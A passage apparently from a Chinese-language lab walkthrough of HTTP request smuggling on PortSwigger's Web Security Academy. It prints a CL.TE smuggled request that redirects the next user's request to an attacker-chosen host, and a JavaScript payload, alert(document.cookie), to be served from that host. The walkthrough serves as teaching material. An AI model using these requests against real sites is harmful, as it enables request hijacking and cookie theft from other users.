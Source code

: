 ```plain
POST / HTTP/1.1
Host: 0adb000003e8f05f81aa7f7900e90038.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=8 HTTP/1.1
Host: baidu.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[![](assets/1704418275-d7b6e789cf7a4e23afed1177f67e66c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161642-6d4b80da-aa10-1.png)

[![](assets/1704418275-1744c4a2dc6ad70d45ffbb5d8388c551.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161648-70de0c4a-aa10-1.png)  
在这里我们可以使用此请求将对网站的下一个请求重定向到/发布到我们自己选择的主机上，下面我们直接使用平台提供的漏洞服务器做一个演示，在/post创建一个text/javascript文件：

```plain
alert(document.cookie)
```
